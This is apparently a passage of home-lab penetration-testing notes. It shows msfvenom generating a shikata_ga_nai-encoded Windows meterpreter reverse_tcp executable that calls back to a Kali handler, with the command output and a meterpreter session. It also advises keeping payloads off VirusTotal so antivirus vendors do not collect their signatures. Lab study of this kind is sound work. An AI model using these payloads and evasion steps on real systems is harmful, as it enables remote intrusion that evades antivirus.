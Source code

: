 Once we click on the encoded payload and hit run, that should give us a meterpreter session on our handler.

Switch back to the Kali VM.

```
meterpreter > sysinfo
```

And we now have access to a client side attack.

I wouldn't recommand actually testing these payloads or uploading them to VirusTotal because the signatures will be stored and submitted to antivirus companies. The only way to actually test this is to set up a sandbox system with an antivirus disconnected from the internet. And then test out the payloads to see whether they are detected. And this process will involve a lot of trial and error.

[virustotal](https://www.virustotal.com/gui/home/upload)

# Home Lab
Kali: 192.168.248.148

Windows 7 SP1: 192.168.248.150

```
┌──(root㉿kali)-[~]
└─# msfvenom --list encoders                                                                          

Framework Encoders [--encoder <value>]
======================================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/powershell_base64         excellent  Powershell Base64 Command Encoder
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.248.148 LPORT=1234 -e x86/shikata_ga_nai -f exe > encodedx86.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# rm encodedx86.exe
```

